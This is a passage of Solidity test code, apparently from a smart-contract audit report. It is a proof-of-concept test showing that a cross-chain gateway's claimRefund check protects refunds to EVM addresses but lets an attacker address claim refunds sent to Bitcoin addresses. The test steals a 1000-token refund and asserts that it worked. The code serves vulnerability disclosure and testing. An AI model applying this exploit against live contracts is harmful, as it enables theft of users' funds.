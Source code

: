 ```solidity
    }

    function test_PoC_ClaimRefundVulnerability_CompareWithEVM() public {
        // ### COMPARISON: Show how EVM addresses are protected but non-EVM are not ###
        
        bytes32 evmExternalId = keccak256(abi.encodePacked("evm-refund-test"));
        bytes32 btcExternalId = keccak256(abi.encodePacked("btc-refund-test"));
        uint256 refundAmount = 1000 ether;
        address refundToken = address(token1Z);
        address attacker = address(0x888);
        
        // Create EVM refund (20 bytes)
        bytes memory evmAddress = abi.encodePacked(user2); // 20 bytes
        
        // Create Bitcoin refund (>20 bytes)  
        bytes memory bitcoinAddress = "bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh";
        
        // Fund contract
        token1Z.mint(address(gatewayCrossChain), refundAmount * 2);
        
        // Create both refunds
        vm.startPrank(address(gatewayZEVM));
        gatewayCrossChain.onAbort(
            AbortContext({
                sender: abi.encode(address(this)),
                asset: refundToken,
                amount: refundAmount,
                outgoing: false,
                chainID: 1,
                revertMessage: bytes.concat(evmExternalId, evmAddress)
            })
        );
        
        gatewayCrossChain.onAbort(
            AbortContext({
                sender: abi.encode(address(this)),
                asset: refundToken,
                amount: refundAmount,
                outgoing: false,
                chainID: 8332,
                revertMessage: bytes.concat(btcExternalId, bitcoinAddress)
            })
        );
        vm.stopPrank();
        
        console.log("=== TESTING PROTECTION MECHANISMS ===");
        console.log("EVM address length:", evmAddress.length, "bytes");
        console.log("Bitcoin address length:", bitcoinAddress.length, "bytes");
        
        // Try to steal EVM refund (should fail)
        vm.prank(attacker);
        vm.expectRevert("INVALID_CALLER");
        gatewayCrossChain.claimRefund(evmExternalId);
        console.log("EVM refund protected: Attacker cannot claim");
        
        // Try to steal Bitcoin refund (should fail but doesn't)
        uint256 attackerBalanceBefore = token1Z.balanceOf(attacker);
        vm.prank(attacker);
        gatewayCrossChain.claimRefund(btcExternalId); // This succeeds!
        uint256 attackerBalanceAfter = token1Z.balanceOf(attacker);
        
        assertEq(attackerBalanceAfter, attackerBalanceBefore + refundAmount, "Bitcoin refund was stolen");
```